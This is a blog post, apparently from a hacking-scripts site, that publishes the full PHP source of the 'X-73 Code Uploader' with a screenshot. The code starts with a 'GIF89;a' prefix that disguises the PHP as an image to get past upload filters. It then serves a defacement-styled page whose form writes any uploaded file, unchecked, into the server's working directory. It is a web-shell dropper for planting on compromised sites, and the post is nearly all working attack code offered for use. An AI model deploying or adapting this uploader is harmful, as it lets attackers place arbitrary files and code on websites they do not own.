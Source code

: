 ```yaml
---
id: 245
title: X-73 Code Uploader
author: admin
layout: post
guid: http://hackingscripts.com/?p=245
permalink: /x-73-code-uploader/
categories:
  - PHP
tags:
  - PHP
  - X-73
---
```

&#8211;==@[&#8211; X-73 CODE UPLOADER &#8211;]==&#8211;


### X-73 Code Uploader Source Code

{% highlight php linenos %}GIF89;a
<?php
    $myUpload = new maxUpload(); 
    //$myUpload-&gt;setUploadLocation(getcwd().DIRECTORY_SEPARATOR);
    $myUpload-&gt;uploadFile();
?>
<?php
class maxUpload{
    var $uploadLocation;
    
    /**
     * Constructor to initialize class varaibles
     * The uploadLocation will be set to the actual 
     * working directory
     *
     * @return maxUpload
     */
    function maxUpload(){
        $this-&gt;uploadLocation = getcwd().DIRECTORY_SEPARATOR;
    }

    /**
     * This function sets the directory where to upload the file
     * In case of Windows server use the form: c:\\temp\\
     * In case of Unix server use the form: /tmp/
     *
     * @param String Directory where to store the files
     */
    function setUploadLocation($dir){
        $this-&gt;uploadLocation = $dir;
    }
    
    function showUploadForm($msg='',$error=''){
?>
       &lt;div id="container"&gt;
            &lt;div id="header"&gt;&lt;div id="header_left"&gt;&lt;/div&gt;
            &lt;div id="header_main"&gt;SUL-BAR LINK&lt;div id="header_right"&gt;&lt;/div&gt;&lt;/div&gt;
            &lt;div id="content"&gt;
<?php
if ($msg != ''){
    echo '&lt;p class="msg"&gt;'.$msg.'&lt;/p&gt;';
} else if ($error != ''){
    echo '&lt;p class="emsg"&gt;'.$error.'&lt;/p&gt;';

}
?>
&lt;body bgcolor="#000000"&gt;&lt;center&gt;&lt;div style="background-image:url(''); width="1040" height="710" class="shakeimage" onMouseOver="init(this);rattleimage()" onMouseOut="stoprattle(this);top.focus()" onClick="top.focus()" alt="" border="0"&gt;&lt;br&gt;&lt;div
id="example1"&gt;&lt;/div&gt;&lt;p id="example2"&gt;&lt;font face="Papyrus"; color="red"; size="6"&gt;&lt;br&gt;--==@[-- X-73 CODE UPLOADER --]==--

                &lt;form action="" method="post" enctype="multipart/form-data" &gt;
                     &lt;center&gt;
                         &lt;label&gt;File:
                             &lt;input name="myfile" type="file" size="30" /&gt;
                         &lt;/label&gt;
                         &lt;label&gt;
                             &lt;input type="submit" name="submitBtn" class="sbtn" value="Upload" /&gt;
                         &lt;/label&gt;
                     &lt;/center&gt;
                 &lt;/form&gt;
             &lt;/div&gt;
             &lt;div id="footer"&gt;&lt;a href="http://www.sekedar-online.com" target="_blank"&gt;Sulbar-Link&lt;/a&gt;&lt;/div&gt;
         &lt;/div&gt;
<?php
    }

    function uploadFile(){
        if (!isset($_POST['submitBtn'])){
            $this-&gt;showUploadForm();
        } else {
            $msg = '';
            $error = '';
            
            //Check destination directory
            if (!file_exists($this-&gt;uploadLocation)){
                $error = "The target directory doesn't exists!";
            } else if (!is_writeable($this-&gt;uploadLocation)) {
                $error = "The target directory is not writeable!";
            } else {
                $target_path = $this-&gt;uploadLocation . basename( $_FILES['myfile']['name']);

                if(@move_uploaded_file($_FILES['myfile']['tmp_name'], $target_path)) {
                    $msg = basename( $_FILES['myfile']['name']).
                    " File anda sukses di Upload!";
                } else{
                    $error = "Proses Upload terganggu!";
                }
            }

            $this-&gt;showUploadForm($msg,$error);
        }

    }

}
?>
{% endhighlight %}


### X-73 Code Uploader screenshot<figure id="attachment_434" style="width: 604px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/02/x-73-code-uploader-1024x351.png" alt="X-73 code uploader screenshot" width="604" height="207" class="size-large wp-image-434" />][1]<figcaption class="wp-caption-text">X-73 code uploader screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/02/x-73-code-uploader.png